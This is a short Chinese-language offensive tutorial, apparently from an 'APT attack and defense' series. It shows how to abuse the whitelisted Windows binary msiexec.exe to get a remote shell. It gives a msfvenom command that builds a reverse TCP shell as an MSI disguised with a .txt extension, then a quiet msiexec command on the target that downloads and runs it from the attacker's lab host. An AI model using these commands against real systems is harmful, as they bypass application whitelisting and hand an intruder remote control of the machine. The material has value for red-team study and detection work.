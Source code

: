 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，身体特别重要。

**Msiexec简介：**

Msiexec是Windows Installer的一部分。用于安装Windows Installer安装包（MSI）,一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于Windows 2003，Windows 7等。

**说明：**Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。

**基于白名单Msiexec.exe配置payload：**

Windows 2003 默认位置：

`C:\WINDOWS\system32\msiexec.exe
C:\WINDOWS\SysWOW64\msiexec.exe`

**攻击机：**192.168.1.4 Debian
**靶机：** 192.168.1.119 Windows 2003

**配置攻击机msf：**
![](media/2649cf5ad568984ff20e46111fa98b12.jpg)


**配置payload：**

`msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f msi > Micropoor_rev_x64_53.txt`
![](media/5c011fcb99c3411ae97fb78affcca15d.jpg)

![](media/69b03297f582100971130f6ac6a9e1e4.jpg)

**靶机执行：**

`C:\Windows\System32\msiexec.exe /q /i http://192.168.1.4/Micropoor_rev\_x64_53.txt`
![](media/39acc13b2f9da5473510eed6d26c74a1.jpg)

![](media/c70a2131fc4a5392c8405806438ca269.jpg)

![](media/7f9e95b7d3fa9393cd1e6a4978294430.jpg)

>   Micropoor
